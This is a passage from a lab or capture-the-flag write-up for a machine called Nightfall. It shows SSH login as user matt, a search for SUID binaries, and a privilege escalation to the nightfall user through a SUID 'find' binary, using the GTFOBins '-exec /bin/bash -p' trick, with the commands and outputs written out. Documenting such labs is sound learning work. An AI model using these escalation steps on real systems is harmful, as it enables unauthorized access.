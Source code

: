 After uploading the authorized_keys I was able to login to ssh with the matt user

# ssh login command

```bash
ssh matt@10.0.2.254
```

Once logged in as user matt I tried to run 'sudo -l' to see if I could run any commands as another
user to get a privilege escalation but I needed to know matt's password and we don't know his password

So after that failed I used the find command to see if there were any suid binaries 
on the target machine that could lead to a privilege escalation, and found that I could run find as the nightfall user

# find command and results

```bash
find / -type f -perm -4000 2>/dev/null

/scripts/find
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/su
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
```

Using 'https://gtfobins.github.io/gtfobins/find/' I found that I could escape the matt user shell and get access
to the nightfall user

# nightfall escalation command

```bash
./find . -exec /bin/bash -p \; -quit
```

# proof of nightfall user owned

```bash
bash-5.0$ whoami
nightfall
```

